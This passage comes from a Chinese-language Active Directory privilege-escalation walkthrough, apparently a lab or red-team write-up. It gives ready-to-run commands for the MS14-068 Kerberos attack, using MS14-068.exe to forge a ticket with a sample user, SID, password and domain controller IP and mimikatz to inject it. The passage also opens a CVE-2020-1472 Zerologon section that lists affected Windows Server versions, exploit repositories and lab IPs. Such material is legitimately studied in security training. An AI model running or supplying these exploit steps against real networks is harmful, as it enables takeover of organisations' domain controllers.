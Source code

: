 ```
mimikatz kerberos::purge
```

#### 生成认证证书

利用`MS14-068.exe`提权工具生成伪造的`kerberos`协议认证证书

```shell
shell MS14-068.exe -u de1ay@de1ay.com -s S-1-5-21-2756371121-2868759905-3853650604-1001 -p 1qaz@WSX -d 10.10.11.10
```

#### 写入认证证书

利用`mimikatz.exe`将证书写入，从而提升为域管理员

```shell
mimikatz kerberos::ptc TGT_de1ay@de1ay.com.ccache
```

#### 验证域管理权限

再次列出域控制器的C盘目录，成功访问域控的C盘，说明普通域用户提权成功

## CVE-2020-1472 -- Netlogon域提权

### 影响范围

> Windows Server 2008 R2 for x64-based Systems Service Pack 1
> Windows Server 2012
> Windows Server 2016
> Windows Server 2019
> Windows Server, version 1903 (Server Core installation)
> Windows Server, version 1909 (Server Core installation)
> Windows Server, version 2004 (Server Core installation)

### Zerologon脚本利用

- 工具

  > poc：https://github.com/SecuraBV/CVE-2020-1472.git
  >
  > exp：https://github.com/blackarrowsec/redteam-research
  >
  > exp：https://github.com/dirkjanm/CVE-2020-1472
  >
  > exp：https://github.com/risksense/zerologon
  >
  > Impacket工具包：https://github.com/SecureAuthCorp/impacket.git

- 环境

  > PC的IP地址：10.10.10.30
  >
  > DC的IP地址：10.10.10.10
